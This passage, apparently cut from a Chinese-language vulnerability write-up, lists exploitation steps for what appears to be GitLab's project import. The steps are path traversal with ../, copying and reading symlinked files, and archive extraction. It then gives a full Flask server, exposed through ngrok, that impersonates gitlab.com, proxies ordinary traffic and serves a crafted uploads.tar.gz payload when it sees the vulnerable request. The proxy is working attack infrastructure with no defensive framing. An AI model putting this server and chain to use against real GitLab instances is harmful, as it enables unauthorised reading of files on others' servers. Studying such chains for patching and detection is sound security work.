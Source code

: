     - copy_to的参数为file句柄，指向某文件路径。fileK调用该函数能够将上一步的任意文件拷贝到指定路径
5. 路径穿越读取链接文件，拷贝链接文件指向内容
    - fileK = retrieve_from_store!的参数为路径字符串，传入 ../ 能够索引到任意文件，类似于File.open()，也可以索引到链接文件
    - copy_to的参数为file句柄，指向某文件路径。fileK调用该函数能够将上一步的链接文件指向内容拷贝到指定路径
6. 直接读取链接文件指向内容
    - store!的参数是File句柄，当该句柄指向链接文件，那么可以读取链接文件内容。配合解压后的文件包含的链接文件。
7. 文件解压操作，命令行方式以及第三方库方式
8. ngrok伪造服务器，进行流量分发：

    ```
    from flask import Flask, request, Response, send_file
    import requests

    app = Flask(__name__)
    HTTP_METHODS = ['GET', 'HEAD', 'POST', 'PUT',
                    'DELETE', 'CONNECT', 'OPTIONS', 'TRACE', 'PATCH']

    def do_proxy(request, path):
        excluded_headers = ['content-encoding',
                            'content-length', 'transfer-encoding', 'connection', 'host']

        headers = [(name, value) for (name, value) in request.headers
                if name.lower() not in excluded_headers]

        host = request.headers["host"]
        if host.endswith("ngrok.io"):
            host = "gitlab.com"
            
        resp = requests.request(
            url=f'https://{host}/{path}?{request.query_string.decode()}', method=request.method, headers=dict(headers), data=request.data)
        
        headers = [(name, value) for (name, value) in resp.raw.headers.items()
                if name.lower() not in excluded_headers]
        response = Response(resp.content, resp.status_code, headers)
        return response

    @app.route('/', defaults={'path': ''}, methods=HTTP_METHODS)
    @app.route('/<path:path>', methods=HTTP_METHODS)
    def proxy(path):
        # 对流量进行过滤，对于含有漏洞的请求，发送payload
        if request.method == "GET" and request.query_string == b"relation=uploads":
            return send_file("uploads.tar.gz", as_attachment=True, mimetype="application/octet-stream")
        else:
            # 其他正常请求，发送到gitlab服务器处理
            return do_proxy(request, path)

    ```